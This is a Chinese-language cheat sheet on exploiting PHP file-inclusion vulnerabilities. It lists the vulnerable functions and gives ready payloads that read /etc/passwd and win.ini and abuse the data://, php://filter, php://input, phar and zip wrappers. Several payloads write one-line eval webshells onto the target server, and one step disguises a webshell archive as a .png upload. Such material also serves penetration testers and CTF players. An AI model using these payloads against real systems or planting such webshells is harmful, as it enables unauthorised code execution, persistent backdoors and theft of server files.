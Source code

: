 # 文件包含漏洞
## 利用点函数
```php
<?php
require '1.php'; #包含错误会报错并停止运行
require_once '1.php';
include '1.php'; #包含错误会报错但继续运行
include_once '1.php';
file_get_contents('1.php','r');
?>
```
## 验证
> windows系统
>>?a=type C:\Windows\win.ini

> linux系统
>> ?a=cat /etc/passwd

## file
- ?a=file:///etc/passwd
## http/https
- ?a=https://www.xxx.com/1.php

- 利用条件

allow_url_fopen、allow_url_include

1.php可以写一个写入一句话木马的内容
```php
<?php
$a = "<?php eval(\$_POST['123'])?>";
$b = fopen("a.php","w") or die("123!");
fwrite($b,$a);
fclose($b);
echo "木马已生成.";    
echo '<br/>';
?>
## 自动生成a.php,密码为123
```
那么在对方机器上就自动生成了一个木马，链接即可利用
## data
data协议是一个数据封装的协议

data协议格式：

  data:[<mime type>][;charset=<charset>][;base64],<encoded data>

解析：

  第一部分 data: 标识这是data协议

  第二部分 mime：表示这串内容以什么方式展现，几种常用的类型：

    第三部分charset：编码设置，可省略，省略则会使用默认的编码显示，

常用的也就 utf-8 / unicode / gbk 这几个

  第四部分base64：不是必选，代表是否对后面的数据使用base64解码，即数据是不是base64编码的数据

- 利用条件

allow_url_fopen、allow_url_include php>=5.2

```url
?a=data://text/plain,<?php phpinfo();?>
?a=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8+
?a=data://text/plain,<?php fputs(fopen('a.php','w'),'<?php @eval($_GET['qqqqq']);?>');?>
```
## php
### php://filter读取源码
- 不受 allow_url_fopen 、allow_url_include 开启与否的限制
- 利用方法
```url
?a=php://filter/read=convert.base64-encode/resource=flag.php
?a=php://filter/convert.base64-encode/resource=flag.php
```
### php://input
- 利用条件

allow_url_include=on

- 利用方法(数据包内)
```post
GET /index.php?a=php://input
xxxxxxxxxx

<?php phpinfo();?>
```
- 写入一句话木马
```post
GET /index.php?a=php://input
xxxxxxxxxx

<?php fputs(fopen('a.php','w'),'<?php @eval($_GET['qqqqq'])?>');?>
```
## phar
phar协议要求：php大于5.3.0

需要将php.ini的参数phar.readonly设置为off

- 利用过程

写一个一句话木马2.php

```php
<?php
@eval($_POST['qqqqq']);
?>
```

然后将2.php添加到压缩包为2.zip

接下来将2.zip重命名为2.png

然后上传文件2.png,查找路径，即可利用

![](./i/1.png)


以下的这种包含方式在这样的情况下是无效的。

include(一个规定的路径+可控点)

## zip
- 利用过程

写一个一句话木马2.php

```php
<?php
@eval($_POST['qqqqq']);
?>
```

然后将2.php添加到压缩包为2.zip,上传，即可利用
![](./i/2.png)
